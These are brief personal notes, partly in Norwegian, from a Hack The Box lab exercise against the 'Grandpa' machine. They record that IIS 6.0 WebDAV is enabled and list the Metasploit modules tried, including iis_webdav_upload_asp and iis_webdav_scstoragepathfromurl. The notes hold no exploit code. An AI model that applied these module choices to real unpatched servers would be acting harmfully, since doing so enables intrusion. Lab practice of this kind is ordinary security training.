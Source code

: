 ## grandpa 10.10.10.14

* Uncommon header 'microsoftofficewebserver' found, with contents: 5.0\_Pub

kjører iis 6.0. kan exploites med webdav?

exploit/windows/iis/iis\_webdav\_upload\_asp skulle fungert, men gjør ikke det. får server error

use auxiliary/scanner/http/http\_put

use exploit/windows/iis/iis\_webdav\_upload\_asp

403 forbidden

[http://10.10.10.14/images/](http://10.10.10.14/images/) eksisterer

10.10.10.14 \(Microsoft-IIS/6.0\) has WEBDAV ENABLED

use exploit/windows/iis/iis\_webdav\_scstoragepathfromurl




